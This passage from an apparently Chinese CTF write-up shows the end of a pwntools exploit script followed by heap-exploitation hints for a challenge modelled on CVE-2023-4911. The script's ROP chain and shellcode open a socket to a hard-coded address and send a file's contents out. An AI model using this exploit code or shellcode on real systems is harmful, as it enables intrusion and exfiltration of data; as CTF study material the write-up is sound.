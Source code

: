 ```Python
        rbp,rop_start+0x230+0x10+0x18,
        reveal_ptr,
        ret,ret,ret,ret,rop_start+0x230+0x20+0x18,
        jmp_rax, # pop rsi
        0x20000,
        reveal_ptr,
        ret,ret,ret,ret,ret,
        jmp_rax, # mprotect
        rop_start+0x230*2,
    ]
    
    for i in range(len(p1)):
        off=0
        while (p1[i]>>off*8)&0xff==0:
            off+=1
            if off==8:break
        edit(0,i*8+off,p64(p1[i]>>off*8))
    edit(1,8,b"/flag\0\0\0")
    edit(1,0x10,p64(stdout))
    edit(1,0x18,p64(stdin))
    edit(1,0x20,p64(stderr))
    edit(1,0x30,p16(2))
    edit(1,0x32,p16(0x89c8))
    edit(1,0x34,p32(0x10238208))
    shellcode=asm("push 2;pop rdi;push 1;pop rsi;push rsi;pop rdx;dec rdx;push __NR_socket;pop rax;syscall;")
    shellcode+=asm(f"push rax;pop rdi;push {rop_start+0x230+0x30};pop rsi;push 0x10;pop rdx;push __NR_connect;pop rax;syscall;")
    shellcode+=asm(f"push {rop_start+0x230+8};pop rdi;xor rsi,rsi;push rsi;pop rdx;push __NR_open;pop rax;syscall;")
    shellcode+=asm(f"push rax;pop rdi;push rsp;pop rsi;push rsp;pop rdx;xor rax,rax;syscall;")
    shellcode+=asm(f"xor rdi,rdi;xor rax,rax;inc rax;syscall;")
    edit(2,0,shellcode)
    pause()
    edit(2,0,b"a"*(0x200+0x20)+p64(rop_start-8)+p64(0x40238d))
    s.interactive()
```

### npointment

[碎碎念、非预期和后记传送门](https://blog.unauth401.tech/2023nctf/)

本题是[CVE-2023-4911](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt)最开始的溢出部分在glibc堆上的一个拙劣的复刻。

利用点和利用方法在分析CVE文章的前半部分都写的很明显了，自行取用。

本题当off-by-n打overlap应该可以，也可以复刻CVE里面极为优雅的溢出`"\x00"`字节。

任意写和泄露heap和libc啥的很好弄，弄个`unsorted bin`出来再把指针推到对应位置上即可UAF（可能还要推到`small bin/large bin`，`unsorted bin`对应指针低位是0，strdup末尾应该会加0所以垫一个a应该是是不行的）。

但这题不好任意读，泄露env打栈不太好弄。
